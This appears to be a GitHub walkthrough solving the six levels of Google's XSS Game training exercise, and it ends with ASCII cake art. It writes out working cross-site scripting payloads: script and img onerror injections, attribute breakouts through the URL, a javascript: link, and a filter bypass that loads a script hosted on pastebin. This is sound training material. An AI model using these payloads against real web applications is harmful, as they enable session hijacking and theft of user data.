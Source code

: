 # Introduction
[Website](https://xss-game.appspot.com/)

Cross-site scripting (XSS) bugs are one of the most common and dangerous types of vulnerabilities in Web applications. These nasty buggers can allow your enemies to steal or modify user data in your apps and you must learn to dispatch them, pronto!

At Google, we know very well how important these bugs are. In fact, Google is so serious about finding and fixing XSS issues that we are paying mercenaries up to $7,500 for dangerous XSS bugs discovered in our most sensitive products.

In this training program, you will learn to find and exploit XSS bugs. You'll use this knowledge to confuse and infuriate your adversaries by preventing such bugs from happening in your applications.

There will be cake at the end of the test.

## Level 1 - Hello, world of XSS
The input form is not sanitized, so if we insert `<script>alert('done')</script>` we will have our script injected.
## Level 2 - Persistence is key
This time, we can't insert `<script>` elements, as it seems to be sanitized by the web, so we can use `<img>` instead with `onerror` attribute.

`<img src="x" onerror="alert('done')"/>` this way, the browser will try to parse a picture, but as is not existent, on error will execute the script.
## Level 3 - That sinking feeling
Here we can't enter text, so we have to play with the URL.

```
window.onload = function() { 
        chooseTab(unescape(self.location.hash.substr(1)) || "1");
      }
```
Looking at the source code from above, we can see that if not URL fragment identifier exists `#`, it will point first to the image one `#1`, if we enter `#2` we'll go to the second image and so.

We can see this line inside the function `chooseTab(num)` 
` html += "<img src='/static/level3/cloud" + num + ".jpg' />";`
we can escape the `src` attribute by writing `'` after the `#` in the url, followed by an `onerror` cause cause no image will be found and we can comment out the .jpg end with `//`.

The url to visit would be this `https://xss-game.appspot.com/level3/frame#' onerror="alert('done')";//`

## Level 4 - Context matters
Here we can both inject the script in the form or in the url.
The function we are playing with is this one `<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />`
We can input in the form `');alert('done');var x=('`, if we want to insert it into the URL we'd have to encode it. `%27%29%3Balert%28%27done%27%29%3Bvar%20b%3D%28%27` and add it to the URL, in the timer GET parameter, i.e., `https://xss-game.appspot.com/level4/frame?timer=%27%29%3Balert%28%27done%27%29%3Bvar%20b%3D%28%27`

## Level 5 - Breaking protocol
After we click the `Sign up` link, we get into the signup.html page, where we get a predefined value for the parameter next=confirm, if we check the sourcecode `<a href="{{ next }}"> Next >></a>` we can see that the link we get to after clicking next is the next parameter value, so we can do like with **bookmarklets** and add a javascript:function() code to it.
`javascript:alert('done');`

## Level 6 - Follow the :rabbit:
Here, we can see that the webpage tries to load the "gadget" from whatever is after the # (the fragment identifier).

If we read the sourcecode we can see that the the function uses a insensitive case regex for limiting "http/s" connections, but we can bypass this just changing one letter to uppercase, or using // without http, which takes the parentory protocol.

And for hosting the code, we can use a raw pastebin or just use the `google.com/jsrapi?callback=alert('done')` function.

the url would be `https://xss-game.appspot.com/level6/frame#//pastebin.com/raw/R2wQuFMg`

<pre>                                                         -oooo:-                                                        
                                                        omhsoosho`                                                      
                                                        Ndo:``:oh-                                                      
                                                        dms+--+ym:                                                      
                                                        -ymhohdh+`                                                      
                                                         `N/`.s.                                                        
                                                          +:  +                                                         
                                                          --  :                                                         
                                                          --  o                                                         
                                                          ..  +                                                         
                                                          ::  s        ..`                                              
                                                .:sssso.  --  +     :syhhyo`                                            
                                ..::::.       `odhhyyhdd. ::  s    .mhhyhhdh.       -:...`                              
                               /dhhhhhhs     .odddhyhdddh+y:  my-syhdhhyhhddy/`   .odhyyhh:                             
                              yNdhyyoyhmo+::+ms/+++//++/odm:  NNmNd+///+++/+ody::omhyssyhdm-                            
                            -sddyyyyyyyoommmmmmdhyyyyyyhddd: `ddmdmdhyssyyhhmmNNNNdhyyyyyhmo-`                          
                        ``-omdyyyssys///shdddddddddmmdddhyy-``yhddddhhhhhdmmmmmmdd/oyssyyyyhmhss-`                      
                     `:ohhdmddhhyyyyyshddddhhyyyyyhddhhyo:-...--shhyysssyyhhdhhhddyyysyyyhdddmNNmyo.                    
                    /hNNmmd/:o+/////:`/osyhhyyys+syyhhyysysooossyyyyyooyyyyyyysyy+./oooooos/:ydNNmNmo.                  
                   +dNmmmmmhoo+///////oossshhyyyyyyyyssoossoosoosssyyyyyyyhsoyyyys/:-..--:/+sdddmmmNMy                  
                  `hNmmdmmdmddddhhhyhysso+.oyssssso-./o:-/+oo++oo--osoooooo..oyyhyyyyyyhhhyhdddmmdmNNN                  
                  `yNmNNhhdmdddhhhyyyyyyys:-......`./+++/:o++oo++/-````..::/+sysysyyyhsshhhydddmmmNNNN                  
                   sMNNNNNNmmdmdhhhhyyyyyyhhssssoo+oo/+//:/+//+:++++ooosyooyssosyyhhyhsshdhdmmNmNmmMMN                  
                   -NNNNNNhmNmdmmmdddddmhhhyyyyssys///+/:://////o+osoo+osoossosyhhdddh+omddmNNmmNmNMMN                  
                   oMNNNNNNNNdydNmmmmmdhydhhsoooodhydhsshys+soyooooosssyhyhymdhdhyddmmmdmNNNNNNmNNNMMM                  
                   yMMNNNMmmNdmmNNNNNNmh/sysyysyhyddmhhyhyhhddyyyhmddhhdmdddmmmdmmmmNNmmmNmNNNNmMNMMMM                  
                  .dMMNNMMNNNmNNNNNNmmNNhsddddNNdmhdmddyyhdhdhdddhdmhhdddhmddmmmNNNNNNNNNNNNNNNNMNMMMM                  
                  :NMMMNMMNMNhhmNNNNmdmNNmhddmdNmmmmmmddddNmdhdhddddmddmmmmmmNdNmdmmNNNmNNNNNdmMMMMMMM                  
                  -mMMMMMNNmNNmNNNNNNNNNNNdmmNmNmNmNmmNNmmNNdhddmmmmNmhhhyohNMNMNmmmmNdmNNMMMNNMMMMMMM                  
                  .dMMMMMMNNNMMMMMNNNNNMNmmmNNNmmmmNNdddmmNNNmmdNNmNNNmmNNNNNNNNNNNNNNNmNNNNNmNMMMMMMM                  
                  :NMMMMMMMMMMMMMMMNmmNMNNNNNNNmmNmNNNNmdmNNNNNNNmNNdmNNMMNMmNNNNNNMMNdmNNNMNmmMMMMMMM                  
                  :NNMMMMMMMMMMMMMMMMNNMNNMNNNMMMNNNNNNmNmdmmmNNNNNNmmNNNNNNNNNNMNNMMMNNNNMMNmMMMMNNMN                  
                  :NMMMNNMMMMMMMMMMMMMNNMMMMNMMMNmNNMNNNNNmhNMNNMNNNMMNMMMMMNNMMNNNMNMMMMNMMNNMMNMNMMM                  
                  `hMMMNdMNNMNNNNNMMNNNNMMMMMMMMNmNMMMMNNNNNNNdmmmMNMMMMMMNNMMNmdNMMNMNNNNMNmmNMNMMMMN                  
                   yMMMMNMMNMNmmNNNMNmddmMMNNNMNNNNNMMNNNNMNNNNNNNmNNNNNNNNNNNNNddNdmdmmNNMNNdMMMMMMMN                  
                   yMMMMNMNMMNNMMNNNNmdmmNMNNdhmMNNNNNNmNMMddddmNNNmNNMMNmNmmmmmNNmmmmNMMMMMMNNNMMMMMN                  
                   yNNNMMNNMMMMMMNNNNNMmmdNNNNNNNNNNNNmNNNNNmNmmNNNNNNNNNNNmNmNNNNNNNNNNNNNMMMNNMMMMMy                  
                   +MMMMMMMMMMMNNNNMMMNNNNmNNNMNMNNMNNmhdNNNNNmNNNmmNNNNNNNNNNNMMNNmNNNNNMNMNMMMMMMMN:                  
                    NMMMMNMMMMMMMNNNNNNdNMNNNNNNmNNNNNNNNNmmhNNNNmdNNNNNNNNNMMNNMNNNNNNNNNMMMMNNMMMNs`                  
                    -sdmNMNNMMMMMNNNNmmmmNNNMNmNMNNNNNNNMNmNNNNNNmmmdmNNNMNmmmmNMNNMNMmmNNMMMNMNmd+-`                   
                      `.ohNNMMNMMNMNNmdmNNNNNNmNMNNMNNNNmNNNmmmNmNMMNNMNNMMNNNNNNNNNNMMMMMMMNNho.`                      
                          :+hdNNNNNNNNNNNNNNmNNNNNNNMNNNmNNNNmMmmmNNNMNNNNNNNNMNNMMMMMNNmdds/-                          
                             `--:+shddmmNmmmmNNNNMNNNMNNNNNNNNNNMMNMMMNNNmNNNMNNNNdh++/-.`                              
                                     `--++osdddddddysNmmhshmmmmmNmddddddho/:++/---                                      
                                                    `-.-. .------.                                 

    </pre>
